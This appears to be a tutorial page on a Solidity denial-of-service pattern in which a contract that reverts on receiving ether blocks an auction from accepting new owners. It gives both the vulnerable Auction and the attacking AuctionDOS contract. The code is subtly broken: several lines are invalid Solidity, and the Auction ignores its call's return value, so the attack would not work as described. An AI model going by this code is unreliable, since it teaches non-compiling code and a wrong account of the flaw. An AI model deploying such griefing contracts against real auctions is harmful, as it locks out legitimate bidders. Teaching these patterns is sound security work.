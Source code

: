 # ⏪ External Call Reverts DoS

External calls can cause the contract to be vulnerable to DoS attacks. To better explain how can this be possible, consider the following simplified Auction contract:
```solidity
contract Auction {

  address public currentOwner;
  uint public currentBid();

  constructor() payable {
    currentOwner = msg.sender;
    currentBid() = msg.value;
  }

  receive() external payable {
    require(msg.value > currentBid());
    payable(currentOwner).call{msg.value}("");
    currentOwner = msg.sender;
    currentBid() = msg.value;
  }
}
```

For anyone to be a new owner of the Auction, he needs to send an amount of ether greater than the current price (which is set by the `currentOwner`).<br />
To prevent someone else from being a new owner (even if he has more ether than the current price), we can perform a DOS attack into the contract by creating a malicious contract that we register as the `currentOwner` (by sending ether greater than the current price of course) and reverts the transaction whenever it receives ether. So, when a new owner attempts to be a new owner (the `currentOwner` is our malicious contract), the transaction will revert, hence the `newOwner` will not be set anymore.<br />
Below is an example of a Malicious contract that can perform a DOS attack on the Auction contract:

```solidity
contract AuctionDOS {

    constructor(address payable _auction) payable {
        uint currentBid = Auction(_auction).currentBid();
        require(msg.value > currentBid, "You need to send more ether to be the currentOwner");

        // we register the contract as the currentOwner
        (bool success,) = _auction.call{value: msg.value}("");
        
        require(success, "Failed to register as currentOwner");
    }

    receive() external payable {
        // the contract will revert the transaction whenever there is an attempt to change the currentOwner
        revert("newOwner can not be set anymore x)");
    }
}
```